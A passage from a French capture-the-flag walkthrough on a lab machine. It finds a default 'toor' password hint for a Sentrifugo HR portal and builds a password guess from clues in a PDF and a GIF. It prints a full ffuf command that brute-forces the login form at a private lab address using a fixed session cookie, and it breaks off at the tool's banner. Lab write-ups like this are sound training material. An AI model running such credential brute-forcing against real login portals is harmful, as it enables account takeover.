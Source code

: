 Et pour finir le template RTF :

> Greeting EMPLOYEE, We welcome you to the team!
> 
> Please login to our HR mgmt portaland fill out your profile and Details.
> 
> Login username: USERNAME@localhost.com and password is: PASSWORD.
> 
> INSERT ORG SPECIFIC PHRASE, glad you joined the team EMPLOYEE! 

Ensuite il y a toute la partie dans le dossier `zorin` mais surtout `/zorin/hr.html` :

> ## This page still needs the design signed off as this will be our most visited page once the "plan" has executed...
> 
> In the mean time use **/sentrifugo** for current HR mgmt.
> 
> During this transition period all new users (from now on) will have their sentrifugo passwords automatically set to **toor** so no *real* email address is required for the system to send the initial automatically generated password. Please be patient as the reset to toor may take up to a minute.

Il est mention d'une appli web nommée *Sentrifugo* qui permet de la gestion du personnel et est accessible sur le chemin `/sentrifugo`.

## Louloucoptère

Si on reprend le message à destination de *Chuck* il est mention de la fréquence de transmission d'un lecteur HID.

Sous le dossier `dev` il y a un fichier nommé `HID6005.pdf` (qui provient d'une documentation réelle) et je retrouve l'indication suivante :

```
Transmit Frequency
125 kHz
```

Plus qu'à trouver le fameux mot qu'on voit dans une vidéo. En fait il s'agit de l'image GIF `remote_control.gif` dans le même dossier où l'on peut lire `HELICOPTER` sur un détonateur (extrait d'un film de *James Bond*).

On pouvait aussi bruteforcer une partie du mot de passe (par exemple le mot) mais la plupart des outils comme `ffuf` et `wfuzz` gèrent mal les cookies : sur un formulaire où il faut envoyer les identifiants via POST puis suivre une redirection pour voir le résultat ils ne retransmettent pas le cookie obtenu sur la première réponse.

Par chance ici l'appli web ne définit pas un nouveau cookie à chaque tentative, on peut donc fixer un cookie pour toute l'attaque brute force :

```console
$ ffuf -X POST -u http://192.168.56.193/sentrifugo/index.php/index/loginpopupsave \
  -d 'username=chuck%40localhost.com&password=FUZZ125' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words-lowercase.txt \
  -r -H 'Cookie: PHPSESSID=37cuh43794lud5gm9jrajmtel4' -fw 1974

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
```